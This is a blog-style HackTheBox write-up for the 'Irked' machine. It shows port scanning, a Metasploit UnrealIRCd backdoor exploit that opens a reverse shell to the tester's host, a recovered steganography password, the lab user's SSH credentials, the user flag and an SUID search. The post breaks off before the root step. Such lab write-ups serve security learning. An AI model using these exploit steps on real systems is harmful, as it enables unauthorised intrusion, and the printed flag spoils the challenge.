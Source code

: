 ```yaml
---
layout: post
title: Hackthebox Irked Writeup
categories: HackTheBox
---
```


<img src="/public/images/2019-04-20/irked_badge.png"><br>
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
This is a write-up of machine "Irked" on that website.

## Solution
### 1. Initial Enumeration
Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.117 -sV -sC
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-29 23:55 EET
Nmap scan report for 10.10.10.117
Host is up (0.037s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38929/tcp  status
|_  100024  1          55964/udp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
38929/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.62 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u http://10.10.10.117/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.117/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Timeout      : 10s
=====================================================
2019/04/14 18:02:39 Starting gobuster
=====================================================
/manual (Status: 301)
/server-status (Status: 403)
=====================================================
2019/04/14 18:15:34 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
We can find a vulnerability of "UnrealIRC" on Exploit database.
{% highlight shell %}
root@kali:~# searchsploit unrealirc
--------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                         |  Path
                                                                                       | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                           | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                         | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                              | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

To execute the exploit, launch metasploit console.
{% highlight shell %}
msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 10.10.10.117
rhost => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Uccg9OJybaPvTmSP;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Uccg9OJybaPvTmSP\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:51673) at 2019-04-14 17:49:40 +0300

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
{% endhighlight %}

In directory "/home/djmardov/Documents", we can find user.txt and interesting file ".backup".<br>
Since we're not use djmardov, we don't have a permission to read user.txt
{% highlight shell %}
pwd
/home/djmardov/Documents
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
{% endhighlight %}

Sounds the content of .backup is password for "steganography"
{% highlight shell %}
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
{% endhighlight %}

On the top page of port 80, we can find a image file "irked.jpg"
![placeholder](https://inar1.github.io/public/images/2019-04-20/2019-04-14-18-42-16.png)

We can use <a href=''>this website</a> to decode the data of irked.jpg.<br>
The data achieved is "Kab6h+m+bbp2J:HG".<br>
{% highlight shell %}
djmardov:Kab6h+m+bbp2J:HG
{% endhighlight %}

We can take advantage of the credential above for ssh connection.
{% highlight shell %}
root@kali:~# ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password: 

~~~

Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
{% endhighlight %}

unlike other boxes, user.txt in in a directory "Documents".
{% highlight shell %}
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

### 3. Getting Root
By enumeration, we can find some binary files which have SUID.
{% highlight shell %}
djmardov@irked:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
{% endhighlight %}

We can see an unordinary binary file "viewuser".
{% highlight shell %}
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-11 15:02 (:0)
djmardov pts/0        2019-04-14 11:05 (10.10.14.23)
sh: 1: /tmp/listusers: not found
{% endhighlight %}

Sounds like we need an input for "viewuser".<br>
Try to let this binary read "root.txt".
{% highlight shell %}

{% endhighlight %}
